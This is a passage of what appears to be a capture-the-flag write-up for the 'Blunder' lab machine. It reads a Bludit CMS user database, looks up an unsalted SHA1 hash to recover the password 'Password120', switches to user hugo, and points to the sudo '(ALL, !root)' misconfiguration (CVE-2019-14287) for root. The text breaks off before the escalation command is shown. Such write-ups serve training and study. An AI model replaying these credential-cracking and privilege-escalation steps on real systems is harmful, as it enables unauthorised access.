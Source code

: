 ```
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
As we can notice, in version 3.10.0a there is an (unsalted) hash for user 'hugo', we can find the same user in the system so, let's try to crack the password.  
Before doing any calculation we can simpy google the hash and see what we can find.  
As we google the hash we can find [on this site](https://sha1.gromweb.com/?hash=faca404fd5c0a31cf1897b823c695c85cffeb98d) a match that is: 'Password120' now let's try this for switching to user hugo:  
```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su - hugo
Password:
hugo@blunder:~$
```


## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, a part from one not working exploit, we cannot see anything intresting.  
As we know, linpeas does not have password for ```sudo -l``` but we do, so let's run sudo -l and provide the discovered password:  
```
hugo@blunder:~$ sudo -l
Password:
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
We can notice this strange configuration in sudo ```(ALL, !root)``` as we google this string we se [CVE-2019-14287](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability) that allows privilege escalation with this configuration, since:  
```
```